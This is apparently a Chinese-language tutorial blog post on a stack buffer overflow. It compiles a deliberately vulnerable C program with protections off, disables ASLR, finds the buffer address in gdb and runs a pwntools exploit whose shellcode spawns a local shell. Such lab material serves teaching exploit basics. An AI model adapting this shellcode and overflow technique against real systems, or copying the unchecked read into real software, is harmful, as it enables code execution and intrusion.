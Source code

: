 ```yaml
---
layout: post
title:  "Return Oriented Programming-1"
author: Triangleowl
categories: ROP
permalink: /:categories/:title
---
```

源代码如下:

```C
$ cat level1.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function(){
    char buf[128];
    read(STDIN_FILENO, buf, 256);
}
int main()
{
    vulnerable_function();
    write(STDOUT_FILENO, "Hello, World\n", 13);
    return 0;
}
```
### step1:编译源文件

*`32`位系统:*
```
      gcc -fno-stack-protector -zexecstack level1.c -o level1
```
*`64`位系统:*
```
      gcc -fno-stack-protector -z execstack level1.c -o level1 -m32
```

其中 `-fno-stack-protector`作用是关掉stack protector, `-zexecstack`作用是关掉`DEP`。

### step2:关闭`ASLR`
执行：
```
      sudo -s
      echo 0 > /proc/sys/kernel/randomize_va_space
      exit
```

### step3:反汇编`level1`

```
$ objdump -d level1

0000054d <vulnerable_function>:
 54d:	55                   	push   %ebp
 54e:	89 e5                	mov    %esp,%ebp
 550:	53                   	push   %ebx
 551:	81 ec 84 00 00 00    	sub    $0x84,%esp
 557:	e8 6a 00 00 00       	call   5c6 <__x86.get_pc_thunk.ax>
 55c:	05 78 1a 00 00       	add    $0x1a78,%eax
 561:	83 ec 04             	sub    $0x4,%esp
 564:	68 00 01 00 00       	push   $0x100
 569:	8d 95 78 ff ff ff    	lea    -0x88(%ebp),%edx        #the address of buf is $ebp-0x88
 56f:	52                   	push   %edx
 570:	6a 00                	push   $0x0
 572:	89 c3                	mov    %eax,%ebx
 574:	e8 57 fe ff ff       	call   3d0 <read@plt>
 579:	83 c4 10             	add    $0x10,%esp
 57c:	90                   	nop
 57d:	8b 5d fc             	mov    -0x4(%ebp),%ebx
 580:	c9                   	leave  
 581:	c3                   	ret    
```
通过查看`vulnerable_function()`的汇编代码可以知道`buf`的地址为`$ebp-0x88`,即`vulnerable_function()`函数的`stack`分布为：
```
      |----------------------|
      |                      |
      |----------------------|<-----return address(ebp+0x04)
      |                      |
      |----------------------|<-----ebp
      |                      |
      |                      |
      |                      |
      |                      |
      |                      |
      |----------------------|<-----buf(ebp-0x88)
```
所以只要读入的数据大于`0x88+0x04`就覆盖掉返回地址。接下来只要确定`buf`的地址，用`buf`的地址覆盖`return address`即可将执行`buff`内的`shellcode`.

### step4:确定`buff`的地址

这里选用`140(0x88+0x04)`个`a`和`bbbb`来作为输入，使程序`crash`。
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb
```
在执行`level1`之前要先开启`core dump`,具体做法为：
```
ulimit -c unlimit
sudo -s
echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern
exit
```
然后执行`level1`：
```
$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb
Segmentation fault (core dumped)
```
使用`gdb`确定`buf`的地址：
```
$ gdb ./level1 /tmp/core.xxxxxxxx -q
Reading symbols from ./level1...(no debugging symbols found)...done.
[New LWP 30069]
Core was generated by `./level1'.
Program terminated with signal SIGILL, Illegal instruction.
#0  0xffffcf9e in ?? ()
(gdb) x/s $esp-144
0xffffcf10:	'a' <repeats 140 times>, "bbbb\n\317\377\377"
```
此时已经得到了`buf`的地址`0xffffcf10`.

### step5:编写exploit

```
$ cat exp.py
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./level1')
ret =  0xffffcf10

shellcode  = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload = shellcode + 'A'*(140-len(shellcode)) + p32(ret)

p.send(payload)
p.interactive()
```

### step6:执行结果

```
$ python exp1.py
[+] Starting local process './level1': pid 16267
[*] Switching to interactive mode
$ whoami
owl
```
